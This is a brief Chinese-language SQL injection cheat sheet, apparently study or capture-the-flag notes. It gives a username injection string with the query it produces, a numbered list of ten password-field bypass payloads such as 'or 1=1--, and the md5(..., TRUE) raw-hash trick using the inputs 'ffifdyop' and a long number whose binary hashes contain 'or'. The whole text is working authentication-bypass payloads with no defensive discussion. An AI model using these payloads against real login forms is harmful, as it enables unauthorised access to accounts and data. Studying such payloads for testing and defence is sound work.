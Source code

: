 ## 用户名注入
　　
> `a' or 't'='t`
    
    传入以后为 ：`name='username' --> name='a' or 't'='t'` 这样单引号或双引号 刚好闭合

    `SELECT * FROM users WHERE name = 'a' OR 't'='t';`

## 密码注入

1. `"or "a"="a`
2. `'.).or.('.a.'='.a`
3. `or 1=1--`
4. `'or 1=1--`
5. `a'or' 1=1--`
6. `"or 1=1--`
7. `'or.'a.'='a`
8. `"or"="a'='a`
9. `'or''='`
10. `'or'='or'`


## `md5(，TRUE)`函数和加密,使结果返回`>0`
```
content: 129581926211651571912466741651878684928
hex: 06da5430449f8f6f23dfc1276f722738
raw: \x06\xdaT0D\x9f\x8fo#\xdf\xc1'or'8
string: T0Do#'or'8

和

content: ffifdyop
hex: 276f722736c95d99e921722cf9ed621c
raw: 'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c
string: 'or'6]!r,b

```